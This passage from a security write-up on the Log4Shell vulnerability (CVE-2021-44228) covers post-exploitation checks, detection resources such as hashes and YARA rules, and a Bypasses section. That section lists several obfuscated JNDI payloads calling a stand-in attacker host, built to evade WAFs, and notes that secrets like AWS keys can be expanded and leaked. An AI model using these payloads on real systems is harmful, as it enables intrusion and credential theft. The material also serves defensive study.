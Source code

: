 Can now potentially add private keys or change passwords.

Check super user permissions:

```
sudo -l
```

## Detection

Finding applications vulnerable to CVE-2021-44228 is **hard**. Detecting exploitation may be harder due to number of potential bypasses.&#x20;

InfoSec community has seen incredible outpouring of effort to develop tooling, and code to better constrain the threat:

* [Hashes for vulnerable log4j versions](https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes).
* [Hashes for vulnerable log4j CLASS files](https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d).
* [Listing of vulnerable JAR and CLASS hashes](https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228).
* [Powershell cmdlet for hunting for vulnerable log4j packages.](https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1)
* [YARA rules for detecting versions of log4j](https://github.com/darkarnium/Log4j-CVE-Detect).

{% embed url="https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/" %}
Massive CVE-2021-44228 resource
{% endembed %}

## Bypasses

"Typical" JNDI syntax used above may be caught by WAFs or detected. Payload can ultimately access all expansion, substitution, and templating tricks the package makes available. Unlimited number of bypasses to sneak into syntax.

Example bypasses:

* ${${env:ENV\_NAME:-j}ndi${env:ENV\_NAME:-:}${env:ENV\_NAME:-l}dap${env:ENV\_NAME:-:}//attackerendpoint.com/}&#x20;
* ${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}&#x20;
* ${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}&#x20;
* ${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}&#x20;
* ${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}&#x20;
* ${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i\}}://attackerendpoint.com/}&#x20;
* ${${::-j}ndi:rmi://attackerendpoint.com/}

Note **rmi://** protocol in last bypass. Valid technique that can be used with **marshalsec** utility.

Arbitrary environment variables can be expanded within log4j engine. E.g. ${env:AWS\_SECRET\_ACCESS\_KEY}.

## Mitigation
